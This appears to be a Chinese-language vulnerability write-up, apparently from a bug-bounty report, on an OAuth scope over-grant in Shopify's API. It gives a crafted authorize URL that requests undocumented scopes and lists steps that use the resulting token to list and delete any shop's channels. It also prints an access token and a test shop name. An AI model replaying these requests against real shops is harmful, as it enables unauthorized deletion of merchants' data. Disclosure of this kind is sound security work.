

api漏洞系列-shopify中一个越权漏洞

## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

## 主要逻辑

这是文档中所讲到的应用程序可以访问的范围(https://docs.shopify.com/api/authentication/oauth#scopes),但应用可以请求/获得更多范围的访问权，而其中有些范围本不应该是可访问的。

## 请求

URL GET/POST data: GET METHOD:

`https://victim.myshopify.com/admin/oauth/authorize?client_id=fc49e813f5aad9c8d8f6511703 1a9684&scope=read_apps,write_apps,write_content,read_content,write_customers,read_cust omers,read_disputes,write_fulfillments,read_fulfillments,write_gift_cards,read_gift_cards,writ e_orders,read_orders,read_products,write_products,read_script_tags,write_script_tags,write_ scripts,read_scripts,read_shipping,write_shipping,write_social_network_accounts,read_social_ network_accounts,read_themes,write_themes,read_channels,write_channels&redirect_uri=htt p://while42.myshopify.com/&state=123&shop=while42`

## 复现步骤

使用请求的access_token访问任何作用域。

1.在以下请求中使用你的应用程序的access_token (X-Shopify-Access-Token)

2.`GET /admin/channels.json` (获取所有的 channels IDs)

3.`DELETE /admin/channels/a_Channel_ID.json` (删除任何channel)

在`while42.myshopify.com `处测试:(用`X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce`)

